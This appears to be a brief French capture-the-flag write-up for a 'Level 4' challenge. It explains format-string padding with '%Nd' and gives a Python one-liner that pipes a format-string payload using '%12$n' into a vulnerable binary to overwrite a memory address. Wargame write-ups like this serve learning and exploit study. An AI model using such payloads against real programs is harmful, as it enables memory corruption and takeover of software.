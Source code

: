 # Level 4

Le format "%Nd" remplacent le `N` par un chiffre permet de ne pas mettre les `N` octet nécessaire (Remplacer `"B" * 64` par `"%64d`)
```
$ (python -c 'print "\x10\x98\x04\x08"+"%"+str(0x1025540)+"d%12$n"') | ./level4
```
